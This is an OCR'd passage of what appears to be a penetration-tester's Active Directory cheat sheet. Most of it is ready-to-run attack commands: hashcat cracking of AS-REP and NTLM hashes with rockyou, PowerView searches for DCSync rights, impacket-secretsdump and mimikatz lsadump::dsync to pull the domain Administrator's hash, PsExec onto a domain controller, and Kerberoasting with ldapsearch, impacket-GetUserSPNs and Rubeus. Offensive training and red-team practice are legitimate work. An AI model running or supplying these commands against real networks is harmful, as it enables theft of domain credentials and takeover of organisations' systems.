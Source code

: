 add `$23$` if needed and save file using notepad++ as ANSI encoded file

`hashcat -m 18200 -a 0 spooky.hash /usr/share/wordlists/rockyou.txt /usr/share/hashcat/rules/best64.rule --force`

Rule file: `./rules/best64.rule`

### Dsync Attack

* Find accounts with permissions for DSync using **powerview**

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

```

* secrets dump

`impacket-secretsdump xxx/usename:"ComplexPassword!"@10.10.10.xxx -just-dc-user Administrator`

* mimikatz

```powershell

# start session as Domain admin on any machine

lsadump::dsync /user:corp\Administrator 

```


* exploit using psexec

`.\PSExec.exe \\dc1.domain.com cmd`

* or just crack NTLM hash

`hashcat -m 1000 hashes.txt rockyou.txt -r best64.rule --force`

### Kerberoasting

* Look for kerberoastable accounts:

`ldapsearch -H ldap://10.11.1.xxx -x -LLL -W -b "dc=xxx,dc=com" "(&(samAccountType=805306368)(servicePrincipalName=*))"`

if credentials available then login using parameters
`ldapsearch -H ldap://10.11.1.xxx -D 'Domain.com/User' -w 'PAsswrord'`

or use rubeus `Rubeus.exe kerberoast /stats`

* Perform roasting

```bash

impacket-GetUserSPNs -request -dc-ip 192.168.xx.xx corp.com/user101

#OR locally with  Rubeus

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap

# selective for a specific SPN using ticket

Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> /nowrap
```
